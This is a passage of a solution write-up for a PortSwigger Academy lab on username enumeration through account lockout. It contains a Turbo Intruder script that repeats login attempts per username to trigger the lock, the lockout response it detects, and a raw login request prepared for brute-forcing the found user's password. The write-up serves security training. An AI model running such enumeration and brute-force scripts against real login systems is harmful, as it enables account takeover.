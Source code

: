 we login to the account with the dicovered payload

# Done


# Lab: Username enumeration via account lock
https://portswigger.net/web-security/authentication/password-based/lab-username-enumeration-via-account-lock

To solve the lab, enumerate a valid username, brute-force this user's password, then access their account page. 

1. enumerate username with Turbo intruder:
```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint, 
                           concurrentConnections=1,
                           requestsPerConnection=10,
                           pipeline=False,
                           maxQueueSize=10,
                           timeout=5,
                           maxRetriesPerRequest=3,
                           autoStart=False
                           )
    engine.start(timeout=5)

    
    for word in open('/home/kali/Documents/Portswigger_labs/Broken Authentication /usernames.txt'):
        engine.queue(target.req, word.rstrip())
        engine.queue(target.req, word.rstrip())
        engine.queue(target.req, word.rstrip())
        engine.queue(target.req, word.rstrip())
        engine.queue(target.req, word.rstrip())
        
def handleResponse(req, interesting):
    if 'xxx' not in req.response:
        table.add(req)

```
**observe:**
on login with credential: **username=as400&password=password**, the 5th try yields response:
```htm
                       <p class=is-warning>You have made too many incorrect login attempts. Please try again in 1 minute(s).</p>
```
now we know a valid username

2. lets brute force its password- we wil use TI again cause its fun. we prepare a new request with the valid username and the password as the parameter to brute force:
```
POST /login HTTP/1.1
Host: 0a3700400316cd69c028186e00af0049.web-security-academy.net
Cookie: session=SVGaeqsTwPhuIuCTXbUjuFO5uiAwjE4L
Content-Length: 32

username=as400&password=%s
```
